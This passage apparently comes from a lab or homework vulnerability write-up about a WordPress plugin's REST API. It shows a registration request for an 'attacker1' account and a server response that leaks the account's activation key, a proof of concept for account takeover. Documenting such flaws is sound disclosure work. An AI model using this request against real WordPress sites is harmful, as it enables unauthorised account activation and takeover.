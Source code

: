 ```

Content-Length: 112



{"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
```

```
HTTP/1.1 200 OK

Date: Thu, 22 May 2025 03:48:36 GMT

Server: Apache/2.4.18 (Ubuntu)

X-Robots-Tag: noindex

Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"

X-Content-Type-Options: nosniff

Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link

Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type

Allow: POST

Content-Length: 280

Content-Type: application/json; charset=UTF-8



[{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
```

![1747885758997](image/homework/1747885758997.png)
activation_key : aoM0svmO72kVVPbNxYadAKifjIUuYqj8
